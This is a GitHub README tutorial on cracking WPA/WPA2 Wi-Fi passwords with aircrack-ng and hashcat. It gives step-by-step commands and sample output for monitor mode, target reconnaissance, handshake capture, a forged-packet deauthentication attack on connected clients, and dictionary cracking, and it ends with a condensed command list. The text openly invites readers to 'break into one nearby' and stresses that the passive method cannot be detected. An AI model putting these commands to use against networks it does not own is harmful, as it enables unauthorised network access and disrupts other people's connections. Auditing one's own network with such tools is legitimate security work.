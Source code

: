 Wi-Fi Cracking Crack WPA/WPA2 Wi-Fi Routers with Airodump-ng and Aircrack-ng/Hashcat. This is a brief walk-through tutorial that illustrates how to crack Wi-Fi networks that are secured using weak passwords. It is not exhaustive, but it should be enough information for you to test your own networks security or break into one nearby. The attack outlined below is entirely passive (listening only, nothing is broadcast from your computer) and it is impossible to detect provided that you dont actually use the password that you crack. An optional active deauthentication attack can be used to speed up the reconnaissance process and is described at the end of this document. If you are familiar with this process, you can skip the descriptions and jump to a list of the commands used at the bottom. For a variety of suggestions and alternative methods, see the appendix. neal1991 and tiiime have also graciously provided translations to this document and the appendix in Chinese if you prefer those versions. DISCLAIMER: This software/tutorial is for educational purposes only. It should not be used for illegal activity. The author is not responsible for its use. Dont be a dick. Getting Started This tutorial assumes that you: Have a general comfortability using the command-line Are running a debian-based linux distro, preferably Kali linux (OSX users see the appendix) Have Aircrack-ng installed sudo apt-get install aircrack-ng Have a wireless card that supports monitor mode (see here for a list of supported devices) Cracking a Wi-Fi Network Monitor Mode Begin by listing wireless interfaces that support monitor mode with: bash airmon-ng If you do not see an interface listed then your wireless card does not support monitor mode 😞 We will assume your wireless interface name is wlan0 but be sure to use the correct name if it differs from this. Next, we will place the interface into monitor mode: bash airmon-ng start wlan0 Run iwconfig. You should now see a new monitor mode interface listed (likely mon0 or wlan0mon). Find Your Target Start listening to 802.11 Beacon frames broadcast by nearby wireless routers using your monitor interface: bash airodump-ng mon0 You should see output similar to what is below. ``` CH 13 ][ Elapsed: 52 s ][ 2017-07-23 15:49 BSSID PWR Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID 14:91:82:F7:52:EB -66 205 26 0 1 54e OPN belkin.2e8.guests 14:91:82:F7:52:E8 -64 212 56 0 1 54e WPA2 CCMP PSK belkin.2e8 14:22:DB:1A:DB:64 -81 44 7 0 1 54 WPA2 CCMP 14:22:DB:1A:DB:66 -83 48 0 0 1 54e. WPA2 CCMP PSK steveserro 9C:5C:8E:C9:AB:C0 -81 19 0 0 3 54e WPA2 CCMP PSK hackme 00:23:69:AD:AF:94 -82 350 4 0 1 54e WPA2 CCMP PSK Kaitlins Awesome 06:26:BB:75:ED:69 -84 232 0 0 1 54e. WPA2 CCMP PSK HH2 78:71:9C:99:67:D0 -82 339 0 0 1 54e. WPA2 CCMP PSK ARRIS-67D2 9C:34:26:9F:2E:E8 -85 40 0 0 1 54e. WPA2 CCMP PSK Comcast_2EEA-EXT BC:EE:7B:8F:48:28 -85 119 10 0 1 54e WPA2 CCMP PSK root EC:1A:59:36:AD:CA -86 210 28 0 1 54e WPA2 CCMP PSK belkin.dca ``` For the purposes of this demo, we will choose to crack the password of my network, "hackme". Remember the BSSID MAC address and channel (CH) number as displayed by airodump-ng, as we will need them both for the next step. Capture a 4-way Handshake WPA/WPA2 uses a 4-way handshake to authenticate devices to the network. You dont have to know anything about what that means, but you do have to capture one of these handshakes in order to crack the network password. These handshakes occur whenever a device connects to the network, for instance, when your neighbor returns home from work. We capture this handshake by directing airmon-ng to monitor traffic on the target network using the channel and bssid values discovered from the previous command. ```bash replace -c and --bssid values with the values of your target network -w specifies the directory where we will save the packet capture airodump-ng -c 3 --bssid 9C:5C:8E:C9:AB:C0 -w . mon0 CH 6 ][ Elapsed: 1 min ][ 2017-07-23 16:09 ] BSSID PWR RXQ Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID 9C:5C:8E:C9:AB:C0 -47 0 140 0 0 6 54e WPA2 CCMP PSK ASUS ``` Now we wait... Once youve captured a handshake, you should see something like [ WPA handshake: bc:d3:c9:ef:d2:67 at the top right of the screen, just right of the current time. If you are feeling impatient, and are comfortable using an active attack, you can force devices connected to the target network to reconnect, be sending malicious deauthentication packets at them. This often results in the capture of a 4-way handshake. See the deauth attack section below for info on this. Once youve captured a handshake, press ctrl-c to quit airodump-ng. You should see a .cap file wherever you told airodump-ng to save the capture (likely called -01.cap). We will use this capture file to crack the network password. I like to rename this file to reflect the network name we are trying to crack: bash mv ./-01.cap hackme.cap Crack the Network Password The final step is to crack the password using the captured handshake. If you have access to a GPU, I highly recommend using hashcat for password cracking. Ive created a simple tool that makes hashcat super easy to use called naive-hashcat. If you dont have access to a GPU, there are various online GPU cracking services that you can use, like GPUHASH.me or OnlineHashCrack. You can also try your hand at CPU cracking with Aircrack-ng. Note that both attack methods below assume a relatively weak user generated password. Most WPA/WPA2 routers come with strong 12 character random passwords that many users (rightly) leave unchanged. If you are attempting to crack one of these passwords, I recommend using the Probable-Wordlists WPA-length dictionary files. Cracking With naive-hashcat (recommended) Before we can crack the password using naive-hashcat, we need to convert our .cap file to the equivalent hashcat file format .hccapx. You can do this easily by either uploading the .cap file to https://hashcat.net/cap2hccapx/ or using the cap2hccapx tool directly. bash cap2hccapx.bin hackme.cap hackme.hccapx Next, download and run naive-hashcat: ```bash download git clone https://github.com/brannondorsey/naive-hashcat cd naive-hashcat download the 134MB rockyou dictionary file curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt crack ! baby ! crack ! 2500 is the hashcat hash mode for WPA/WPA2 HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh ``` Naive-hashcat uses various dictionary, rule, combination, and mask (smart brute-force) attacks and it can take days or even months to run against mid-strength passwords. The cracked password will be saved to hackme.pot, so check this file periodically. Once youve cracked the password, you should see something like this as the contents of your POT_FILE: e30a5a57fc00211fc9f57a4491508cc3:9c5c8ec9abc0:acd1b8dfd971:ASUS:hacktheplanet Where the last two fields separated by : are the network name and password respectively. If you would like to use hashcat without naive-hashcat see this page for info. Cracking With Aircrack-ng Aircrack-ng can be used for very basic dictionary attacks running on your CPU. Before you run the attack you need a wordlist. I recommend using the infamous rockyou dictionary file: ```bash download the 134MB rockyou dictionary file curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt ``` Note, that if the network password is not in the wordfile you will not crack the password. ```bash -a2 specifies WPA2, -b is the BSSID, -w is the wordfile aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt hackme.cap ``` If the password is cracked you will see a KEY FOUND! message in the terminal followed by the plain text version of the network password. ``` Aircrack-ng 1.2 beta3 [00:01:49] 111040 keys tested (1017.96 k/s) KEY FOUND! [ hacktheplanet ] Master Key : A1 90 16 62 6C B3 E2 DB BB D1 79 CB 75 D2 C7 89 59 4A C9 04 67 10 66 C5 97 83 7B C3 DA 6C 29 2E Transient Key : CB 5A F8 CE 62 B2 1B F7 6F 50 C0 25 62 E9 5D 71 2F 1A 26 34 DD 9F 61 F7 68 85 CC BC 0F 88 88 73 6F CB 3F CC 06 0C 06 08 ED DF EC 3C D3 42 5D 78 8D EC 0C EA D2 BC 8A E2 D7 D3 A2 7F 9F 1A D3 21 EAPOL HMAC : 9F C6 51 57 D3 FA 99 11 9D 17 12 BA B6 DB 06 B4 ``` Deauth Attack A deauth attack sends forged deauthentication packets from your machine to a client connected to the network you are trying to crack. These packets include fake "sender" addresses that make them appear to the client as if they were sent from the access point themselves. Upon receipt of such packets, most clients disconnect from the network and immediately reconnect, providing you with a 4-way handshake if you are listening with airodump-ng. Use airodump-ng to monitor a specific access point (using -c channel --bssid MAC) until you see a client (STATION) connected. A connected client look something like this, where is 64:BC:0C:48:97:F7 the client MAC. ``` CH 6 ][ Elapsed: 2 mins ][ 2017-07-23 19:15 ] BSSID PWR RXQ Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID 9C:5C:8E:C9:AB:C0 -19 75 1043 144 10 6 54e WPA2 CCMP PSK ASUS BSSID STATION PWR Rate Lost Frames Probe 9C:5C:8E:C9:AB:C0 64:BC:0C:48:97:F7 -37 1e- 1e 4 6479 ASUS ``` Now, leave airodump-ng running and open a new terminal. We will use the aireplay-ng command to send fake deauth packets to our victim client, forcing it to reconnect to the network and hopefully grabbing a handshake in the process. ```bash -0 2 specifies we would like to send 2 deauth packets. Increase this number if need be with the risk of noticeably interrupting client network activity -a is the MAC of the access point -c is the MAC of the client aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0 ``` You can optionally broadcast deauth packets to all connected clients with: ```bash not all clients respect broadcast deauths though aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0 ``` Once youve sent the deauth packets, head back over to your airodump-ng process, and with any luck you should now see something like this at the top right: [ WPA handshake: 9C:5C:8E:C9:AB:C0. Now that youve captured a handshake you should be ready to crack the network password. List of Commands Below is a list of all of the commands needed to crack a WPA/WPA2 network, in order, with minimal explanation. ```bash put your network device into monitor mode airmon-ng start wlan0 listen for all nearby beacon frames to get target BSSID and channel airodump-ng mon0 start listening for the handshake airodump-ng -c 6 --bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0 optionally deauth a connected client to force a handshake aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0 #### crack password with aircrack-ng... download 134MB rockyou.txt dictionary file if needed curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt crack w/ aircrack-ng aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap #### or crack password with naive-hashcat convert cap to hccapx cap2hccapx.bin capture/-01.cap capture/-01.hccapx crack with naive-hashcat HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh ``` Appendix The response to this tutorial was so great that Ive added suggestions and additional material from community members as an appendix. Check it out to learn how to: Capture handshakes and crack WPA passwords on MacOS/OSX Capture handshakes from every network around you with wlandump-ng Use crunch to generate 100+GB wordlists on-the-fly Spoof your MAC address with macchanger A Chinese version of the appendix is also available. Attribution Much of the information presented here was gleaned from Lewis Encarnacions awesome tutorial. Thanks also to the awesome authors and maintainers who work on Aircrack-ng and Hashcat. Overwhelming thanks to neal1991 and tiiime for translating this tutorial into Chinese. Further shout outs to yizhiheng, hiteshnayak305, enilfodne, DrinkMoreCodeMore, hivie7510, cprogrammer1994, 0XE4, hartzell, zeeshanu, flennic, bhusang, tversteeg, gpetrousov, crowchirp and Shark0der who also provided suggestions and typo fixes on Reddit and GitHub. If you are interested in hearing some proposed alternatives to WPA2, check out some of the great discussion on this Hacker News post.